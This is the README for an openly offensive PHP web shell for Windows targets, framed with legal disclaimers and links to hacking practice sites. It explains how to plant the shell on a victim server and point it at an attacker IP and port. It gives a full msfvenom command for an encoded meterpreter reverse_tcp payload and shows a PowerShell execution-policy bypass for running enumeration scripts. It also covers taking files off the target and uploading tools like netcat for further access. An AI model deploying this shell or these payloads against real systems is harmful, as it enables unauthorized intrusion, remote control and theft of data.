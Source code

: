 # The Not-So Simple PHP Command Shell
![](/img/nsscmdshell.png)
## Foreword:
> Please note that gaining access to the target is beyond the scope of this writing and your responsibility to establish in a manner consistent with established law.  This tool is intended to be used for on target enumeration to gather and exfiltrate information and then to upload and execute tools such as netcat or msvenom payload for further access to the target. The following websites provide training resources and practice scenarios and are excellent resources for learning such skills:

* https://www.hackthebox.eu/
* https://tryhackme.com/

Automates or simplifies many on target functions. Designed for windows targets. It isn't pretty, but it works as intended. I have included an assortment of common windows enumeration and escalation tools.  To generate your own msfvenom payload:

venom.exe : `sudo msfvenom -p windows/meterpreter/reverse_tcp LHOST=(ATTACKBOXIP) LPORT=(ATTACBOXPORT) -e x64/shikata_ga_nai -f exe -o venom.exe`

![](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshelluse.gif)

## Automates or simplifies many on target enumeration functions. Including:

* Simple system commands
* File upload/download options
* simple user manipulations (on compatible targets with sufficient privileges)
* One click user info/ user permissions info
* One click systeminfo
* One Click processes list
* One click file cleanup removes all files uploaded with this tool

## How to use it

First, change the variables, "$attackip" and "$attackport" to the appropriate values for YOUR attack machine:

`$attackip = "10.0.2.6";`

`$attackport = "8000";`

Now get "nsscmdshell.php" onto the target < - DISCLAIMER (in a manner consistent with applicable laws - and within scope of a written contract where required) - >.

Once the nsscmdshell is uploaded, typing valid commands into the command input or clicking the various cmd buttons will display the results in a windows command prompt style below the nsscmdshell interface.

![](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-output.png)

#### * The upload and download options are self explanatory, but just to avoid any confusion:

If using the select field, choose your file and click "upload". Files linked in the select field options need to be present at the web root at the ip address and port in lines 10 and 11 of nsscmdshell.php.<sup>1</sup>

If using the open file dialog option, only files present at the ip address and port specified can be uploaded.

For the download option, simply enter the filename to be downloaded from the working directory of the target machine. Please note that files which can be managed by your browser will be opened in your browser - i.e., entering a text or html file to be downloaded will instead open the file in the web browser.

Example usage: run jaws-enum.ps1 - output to jaws.txt `powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws.txt`, then download the output file to your attack machine for later close examination.

![](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-jaws.png)

The quick command buttons each have a title attribute with a brief description of the function - hover over the button to see the description.<br>

![](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-title-desc.png)

It goes without saying that the effectiveness of the various functions depends on the target os's support of the functions and the current user's permissions. This was designed for and tested on Windows XP - Windows 8.1 with very limited testing on Win10.

*** Got "Warning: file_get_contents(http://XX.XX.XX.XX:XXXX/filename.ext):failed to open stream: No connection could be made...." error?
 Two possible causes:
1. You didn't set the variables, `$attackip` and `$attackport` to your machine. Fix: ifconfig your ip, and set in nsscmdshell.php lines 10 and 11.
2. The files are not available on the defined server or port, or there is no server running on the defined port. Fix: `python3 -m http.server XXXX` in a directory containing the files you're attempting to upload.

### Footnotes:
<sup>1</sup> I generally cd into my "windowstools" folder and start a simple http server:
`cd windowstools`
`python3 -m http.server 8000`.

![](https://github.com/kaotickj/The-Not-So-Simple-PHP-Command-Shell/blob/main/img/nsscmdshell-listening.png)
![Hack The Box](http://www.hackthebox.eu/badge/image/476578)
